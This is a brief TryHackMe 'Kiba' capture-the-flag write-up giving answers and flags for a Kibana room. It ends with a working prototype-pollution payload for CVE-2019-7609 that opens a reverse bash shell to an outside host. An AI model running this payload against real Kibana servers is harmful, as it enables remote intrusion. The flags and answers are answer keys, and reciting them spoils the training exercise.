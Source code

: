 # TryHackMe kiba

# Saikat Karmakar | Started Dec 28:2020

# Task 1 
1. What is the vulnerability that is specific to programming languages with 			prototype-based inheritance?
```
prototype pollution
```
2. What is the version of visualization dashboard installed in the server?
```
6.5.4
```
3. What is the CVE number for this vulnerability? This will be in the format: 			CVE-0000-0000
```
CVE-2019-7609
```
4. Compromise the machine and locate user.txt
```
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```
5. How would you recursively list all of these capabilities?
```
getcap -r /
```
6. Escalate privileges and obtain root.txt
```
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```




```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.4.23.120/9999 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
